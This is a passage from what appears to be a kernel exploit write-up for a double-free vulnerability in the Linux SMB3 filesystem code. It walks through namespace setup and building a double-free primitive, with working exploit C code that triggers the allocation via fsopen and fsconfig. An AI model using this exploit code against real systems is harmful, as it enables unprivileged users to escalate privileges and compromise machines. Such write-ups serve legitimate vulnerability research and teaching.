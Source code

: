 ```c
}
```

- Create and enter user/mount namespace with unshare syscall. This is necessary to trigger the vulnerability of the smbfs subsystem as an unprivileged user and mount useful filesystem.
- Mount tmpfs filesystem which can be used to allocate `struct simple_xattr`.
- Enter network namespace and bring loopback interface up. This will be useful later.

## Step2: Build double free primitive
The primitive can be built by splitting the process to three steps:
  1. Allocate vulnerable object.
  2. Free vulnerable object the first time.
  3. Free vulnerable object the second time.

### Step2.1: Allocate vulnerable object
- Exploit code [exploit.c#L240](./exploit.c#L240): 

```c
int prepare_double_free(int dyn_kmalloc_size)
{
  if (dyn_kmalloc_size <= 0 || dyn_kmalloc_size > 256)
    return -1;

  int fsfd = syscall(SYS_fsopen, "smb3", 0);
  if (fsfd < 0) {
    fprintf(stderr, "fsopen(smb3) failed: %s\n", strerror(errno));
    return -1;
  }

  char password[256];
  memset(password, 0x1, dyn_kmalloc_size - 1);
  password[dyn_kmalloc_size-1] = 0;
  if (syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "password", password, 0) < 0) {
    perror("fsconfig(FSCONFIG_SET_STRING)");
    close(fsfd);
    return -1;
  }

  return fsfd;
}
```

- Kernel code:

```c
static int smb3_fs_context_parse_param(struct fs_context *fc,
				      struct fs_parameter *param)
{
  ...
  switch (opt) {
  case Opt_pass:
    ...

		ctx->password = kstrdup(param->string, GFP_KERNEL);
		if (ctx->password == NULL) {
			cifs_errorf(fc, "OOM when copying password string\n");
			goto cifs_parse_mount_err;
		}
		break;
  ...
}              
```

